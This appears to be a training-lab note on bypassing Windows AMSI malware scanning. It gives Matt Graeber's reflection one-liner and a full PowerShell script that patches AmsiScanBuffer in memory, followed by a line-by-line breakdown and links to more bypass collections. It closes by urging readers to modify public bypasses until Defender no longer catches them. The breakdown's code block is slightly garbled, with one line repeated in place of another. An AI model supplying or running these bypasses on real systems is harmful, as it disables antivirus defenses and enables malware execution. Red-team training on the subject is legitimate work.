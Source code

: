 ## Bypassing AMSI

Now that we understand the basics of AMSI and how its instrumented, we can begin bypassing AMSI using PowerShell and C#.  

There are a large number of bypasses for AMSI available, a majority written in PowerShell and C#. Find a list of common bypasses below.  

- Patching amsi.dll
- Amsi ScanBuffer patch
- Forcing errors
- Matt Graeber's Reflection, [](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)[https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)
- PowerShell downgrade

For more information about the variety of bypasses available, check out this GitHub repo, [https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)  


> [!info]
> We will be looking at the `Matt Graeber reflection method` as well as patching `amsi.dll`.



The first bypass we will be looking at utilizes native PowerShell reflection to set the response value of AMSI to `$null`. Find the PowerShell code written by *Matt Graeber* below.

`[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)`

### AMSI bypass – **amsi.dll** patching

The second method we will be looking at is patching amsi.dll written in PowerShell. This bypass is modified by BC-Security inspired by Tal Liberman, [https://github.com/BC-SECURITY/Empire/blob/master/lib/common/bypasses.py](https://github.com/BC-SECURITY/Empire/blob/master/lib/common/bypasses.py). RastaMouse also has a similar bypass written in C# that uses the same technique, [https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/main/AmsiBypass.cs](https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/main/AmsiBypass.cs).The bypass will identify DLL locations and modify memory permissions to return undetected AMSI response values.

```
$MethodDefinition = "  
  
    [DllImport(`"kernel32`")]  
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);  
  
    [DllImport(`"kernel32`")]  
    public static extern IntPtr GetModuleHandle(string lpModuleName);  
  
    [DllImport(`"kernel32`")]  
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);  
";  
  
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;  
$ABSD = 'AmsiS'+'canBuffer';  
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');  
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $ABSD);  
[UInt32]$Size = 0x5;  
[UInt32]$ProtectFlag = 0x40;  
[UInt32]$OldProtectFlag = 0;  
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);  
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);   
  
[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

This may seem like a lot of fancy and chopped-up code if you are unfamiliar with Windows architecture and PowerShell, but we can break it up and identify what each section of code does.  

### Code breakdown

The first section of code lines 3 - 10 will use C# to call-in functions from Kernel32 to identify where amsi.dll has been loaded.

```
[DllImport(`"kernel32`")]  
public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

[DllImport(`"kernel32`")]  
public static extern IntPtr GetModuleHandle(string lpModuleName);

[DllImport(`"kernel32`")]  
public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
```

Once the C# functions are called in, the code will use Add-type to load the C# and identify the `AmsiScanBuffer` string in lines 13 - 16. This string can be used to determine where `amsi.dll` has been loaded and the address location using `GetProcAddress`.

```
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;  
$ABSD = 'AmsiS'+'canBuffer';  
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');  
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, $ABSD);
```

The next section of code lines 17 - 23 will modify memory permissions and patch `amsi.dll` to return a specified value.

```
[UInt32]$Size = 0x5;  
[UInt32]$Size = 0x5;  
[UInt32]$OldProtectFlag = 0;  
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);  
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

At this stage, we should have an AMSI bypass that partially works. Signatures for most AMSI bypasses have been crafted, so this means that AMSI and Defender themselves will catch these bypasses. This means <u>we will need to obfuscate our code</u> a slight bit to evade signatures. AMSI obfuscation will be covered in the next task.  

For more information about AMSI bypasses, check out the following resources.  

- [](https://offensivedefence.co.uk/posts/making-amsi-jump/)[https://offensivedefence.co.uk/posts/making-amsi-jump/](https://offensivedefence.co.uk/posts/making-amsi-jump/)
- [](https://i.blackhat.com/briefings/asia/2018/asia-18-Tal-Liberman-Documenting-the-Undocumented-The-Rise-and-Fall-of-AMSI.pdf)[https://i.blackhat.com/briefings/asia/2018/asia-18-Tal-Liberman-Documenting-the-Undocumented-The-Rise-and-Fall-of-AMSI.pdf](https://i.blackhat.com/briefings/asia/2018/asia-18-Tal-Liberman-Documenting-the-Undocumented-The-Rise-and-Fall-of-AMSI.pdf)
- [](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)[https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
- [](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/amsi_patch_bin.nim)[https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/amsi_patch_bin.nim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/amsi_patch_bin.nim)
- [](https://blog.f-secure.com/hunting-for-amsi-bypasses/)[https://blog.f-secure.com/hunting-for-amsi-bypasses/](https://blog.f-secure.com/hunting-for-amsi-bypasses/)
- [](https://www.contextis.com/us/blog/amsi-bypass)[https://www.contextis.com/us/blog/amsi-bypass](https://www.contextis.com/us/blog/amsi-bypass)
- [](https://www.redteam.cafe/red-team/powershell/using-reflection-for-amsi-bypass)[https://www.redteam.cafe/red-team/powershell/using-reflection-for-amsi-bypass](https://www.redteam.cafe/red-team/powershell/using-reflection-for-amsi-bypass)
- [https://amsi.fail/](https://amsi.fail/)[](https://amsi.fail/)
- [](https://rastamouse.me/blog/asb-bypass-pt2/)[https://rastamouse.me/blog/asb-bypass-pt2/](https://rastamouse.me/blog/asb-bypass-pt2/)
- [](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html)[https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html)
- [](https://www.youtube.com/watch?v=F_BvtXzH4a4)[https://www.youtube.com/watch?v=F_BvtXzH4a4](https://www.youtube.com/watch?v=F_BvtXzH4a4)
- [https://www.youtube.com/watch?v=lP2KF7_Kwxk](https://www.youtube.com/watch?v=lP2KF7_Kwxk)
- [](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)[https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)


---
# Your job
This section is all about the AMSI evasion and unhooking. Use [amsi.fail](https://amsi.fail/) and try those within the code to unhook amsi. I guess these will start or are already caught by Defender but maybe a small modification can get around that as they use genuine windows commands.

Use a Windows 10 VM for this, otherwise you won’t know if any of the obfuscation works as intended. Don't try Windows 11 it won't work.



**Next step:** [[Task 32 - AMSIception]]
